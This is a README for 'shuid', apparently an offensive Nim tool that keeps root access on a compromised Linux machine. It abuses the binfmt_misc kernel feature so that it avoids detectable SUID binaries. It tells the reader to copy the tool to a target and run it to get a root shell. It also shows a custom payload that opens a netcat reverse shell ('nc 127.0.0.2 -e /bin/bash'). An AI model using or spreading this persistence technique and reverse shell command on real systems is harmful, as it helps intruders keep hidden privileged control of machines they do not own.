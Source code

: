 <div align=center>
<img src=./3BE95711-0067-40AD-8774-A9C09DD10DF8.png>
<pre><code><strong>Privileged persistence 
<br>without using noisy and detectable SUID 
<br>using <i>binfmt</i> Kernel feature instead</strong>
Also a good way to learn Nim and something new
</code></pre>
</div>

## Like at home! 🏡 <sup>(persistence)</sup>

* First transfer `shuid` on target
* Run it!<br><pre><code>./shuid</code></pre>

And that's all, **root shell** is obtained and process to obtain it again will be outputted 


##### More granular

You can choose which SUID will trigger your payload (`-c`). And, obviously, you can also custom the payload (`--payload`).
An example:
```shell
./shuid -c --payload "nc 127.0.0.2 -e /bin/bash"
```


## [Understand the trick](TRICK.md)


<div align=center>
<sup>
All credits goes to <a href= https://github.com/Sentinel-One/shadowsuid/>Dor Dankner</a>, <a href= https://github.com/toffan/binfmt_misc>toffan</a> and <a href= https://www.hackthebox.com/home/users/profile/590762>uco2KFH</a> 
</sup>
</div>

